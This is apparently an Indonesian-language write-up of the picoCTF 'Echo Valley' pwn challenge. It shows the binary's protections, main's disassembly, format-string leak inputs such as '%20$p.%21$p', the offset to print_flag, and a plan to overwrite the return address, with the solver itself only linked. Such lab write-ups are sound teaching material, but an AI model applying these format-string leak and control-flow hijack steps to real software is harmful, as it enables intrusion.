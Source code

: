 di chall ini untuk PIE protection nya aktif,jadi address nya akan berubah ubah setiap kali binary/ELF di jalankan.
```
File:     /mnt/d/aboutCTF/picoCTF/pico/pwn/Echo Valley/valley
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
Debuginfo:  Yes
```
Jika di lihat,function dari main ini hanya akan menjalankan function dari `echo_valley ` ,sedangkan ada function yang memberikan kita flag yaitu pada `print_flag`.Namun,function itu sendiri tidak dijalankan langsung oleh main,jadi disini menurut saya,kita harus menggunakan format string bug arbitrary write
agar kita bisa trigger fungsi `print_flag` ini dan kita mendapatkan flag nya.

```
```asm
0x0000000000001401 <+0>:     endbr64
   0x0000000000001405 <+4>:     push   rbp
   0x0000000000001406 <+5>:     mov    rbp,rsp
   0x0000000000001409 <+8>:     mov    eax,0x0
   0x000000000000140e <+13>:    call   0x1307 <echo_valley>
   0x0000000000001413 <+18>:    mov    eax,0x0
   0x0000000000001418 <+23>:    pop    rbp
   0x0000000000001419 <+24>:    ret
```
saat saya coba untuk format strings:
```
Welcome to the Echo Valley, Try Shouting:
%20$p.%21$p
You heard in the distance: 0x7ffd5b80b6f0.0x5d97ca02d413
```
leak format strings ke 21 itu adalah leak address dari `main+18`, kita coba kalkulasikan berapa offset dari `main+18 ` ini ke - `print_flag`

```
pwndbg> p/x 0x0000000000001413-0x0000000000001269
$1 = 0x1aa
```
jadi, offset nya adalah `0x1aa`,ini akan kita gunakan nanti untuk payload solvernya.Karena function print_flag tidak pernah dipanggil oleh program.Jadi,disini kita bisa bilang kita akan melakukan hijack control flow(overwrite return address) agar program menjalankan `print_flag` dan kita mendapatkan flag-nya.

kita akan gunakan address dari leak `%20%p` sebagai return address dengan jarak dari address itu ke leak `main+18` sebesar 8 byte.

Next,untuk 0ffset nya ,pertama kita cari di offset keberapakah user input kita.

```
Welcome to the Echo Valley, Try Shouting:
AAAAAAAA|%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
You heard in the distance: AAAAAAAA|0x7ffdf12d5910.(nil).(nil).(nil).0x73de5d407ee0.0x4141414141414141.0x252e70252e70257c.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa70252e70252e.(nil).(nil).0xc873fe81287a1100.0x7ffdf12d5b40.0x59cf08c2a413.0x7ffdf12d5be0.0x73de5d227675.0x73de5d563000.0x7ffdf12d5c68.0x1f12d5ba0
exit
The Valley Disappears
```
bisa di lihat,user input kita adalah pada urutan ke-6,jadi offset yang akan kita gunakan dalam format strings payload nya adalah 6.

[Solver](solver.py)
